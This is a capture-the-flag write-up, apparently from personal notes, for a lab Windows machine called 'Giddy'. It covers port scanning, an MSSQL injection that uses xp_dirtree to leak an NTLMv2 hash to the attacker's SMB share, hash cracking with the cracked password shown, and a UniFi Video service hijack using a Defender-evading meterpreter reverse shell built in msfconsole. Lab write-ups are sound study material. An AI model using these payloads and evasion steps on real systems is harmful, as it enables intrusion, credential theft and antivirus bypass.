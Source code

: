 # Giddy

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.96.140 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 10:00 EDT
Nmap scan report for 10.129.96.140
Host is up (0.0083s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
443/tcp  open  https
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
```

Both RDP and WinRM are accessible on this machine, which is new.&#x20;

### SQLI -> Stacy Shell

Port 80 just shows a cute image:

<figure><img src="../../../.gitbook/assets/image (2466).png" alt=""><figcaption></figcaption></figure>

I ran a `gobuster` scan on this, and found 2 directories:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://10.129.96.140 -t 100 
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.96.140
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/05/08 10:02:08 Starting gobuster in directory enumeration mode
===============================================================
/remote               (Status: 302) [Size: 157] [-> /Remote/default.aspx?ReturnUrl=%2fremote]
/mvc                  (Status: 301) [Size: 148] [-> http://10.129.96.140/mvc/]
```

Visiting it reveals a Windows Powershell Web Access page:

<figure><img src="../../../.gitbook/assets/image (1404).png" alt=""><figcaption></figcaption></figure>

The MVC site reveals some online store:

<figure><img src="../../../.gitbook/assets/image (852).png" alt=""><figcaption></figcaption></figure>

When products are viewed, it loads this URL:

```
http://10.129.96.140/mvc/Product.aspx?ProductSubCategoryId=18
```

If we replace the number with a `'` character, a lot of SQL errors are returned:

<figure><img src="../../../.gitbook/assets/image (4084).png" alt=""><figcaption></figcaption></figure>

This is vulnerable to SQL injection. Googling any of the errors here reveals that this is MSSQL, which we can actually get RCE from through `xp_cmdshell`.&#x20;

```sql
2; EXEC master ..xp_dirtree '\\10.10.14.13\share'; --
```

We can start `responder` and intercept the response by sending the above command:

<figure><img src="../../../.gitbook/assets/image (1016).png" alt=""><figcaption></figcaption></figure>

Then we can crack this hash easily using `john`:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash             
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xNnWo6272k7x     (Stacy)     
1g 0:00:00:00 DONE (2023-05-08 10:10) 1.020g/s 2744Kp/s 2744Kc/s 2744KC/s xabat..x6forever
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

By right, this machine came our before `evil-winrm`, so the intentional route is to use the Remote Powershell Web Access to download and execute a reverse shell. I did it the `evil-winrm` way.

<figure><img src="../../../.gitbook/assets/image (2683).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Unifivideo

Within the Documents directory, there's one folder present:

```
*Evil-WinRM* PS C:\Users\Stacy\documents> dir


    Directory: C:\Users\Stacy\documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/17/2018   9:36 AM              6 unifivideo

*Evil-WinRM* PS C:\Users\Stacy\documents> type unifivideo
stop
```

Also, we can enumerate and see that Windows Defender is enabled for this machine, meaning any payload we use has to be obfuscated and encoded.&#x20;

```
*Evil-WinRM* PS C:\Users\Stacy\documents> cmd.exe /c "sc query windefend"

SERVICE_NAME: windefend
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

So we cannot run WinPEAS on this machine too. I decided to check if the Powershell history files were present still, because it could contain some good information, and it did exist:

```
*Evil-WinRM* PS C:\Users\Stacy> type AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
net stop unifivideoservice
$ExecutionContext.SessionState.LanguageMode
Stop-Service -Name Unifivideoservice -Force
Get-Service -Name Unifivideoservice
whoami
Get-Service -ServiceName UniFiVideoService
```

Now we can exploit this.&#x20;

{% embed url="https://www.exploit-db.com/exploits/43390" %}

We need to create a reverse shell file that would bypass Windows Defender. I was a bit lazy, so I used `msfconsole` to generate this:

```
use evasion/windows/windows_defender_exe
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 4444
run
[+] OFVDGEyW.exe stored at /home/kali/.msf4/local/OFVDGEyW.exe
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 4444
run
```

Afterwards, we just need to transfer this reverse shell over and name it as `taskkill.exe` within `C:\programdata\unifi-video` and then run the `stop-service -name Unifivideoservice` command.

<figure><img src="../../../.gitbook/assets/image (2542).png" alt=""><figcaption></figcaption></figure>

Then, we would get a meterpreter shell on the listener:

<figure><img src="../../../.gitbook/assets/image (850).png" alt=""><figcaption></figcaption></figure>

Rooted!
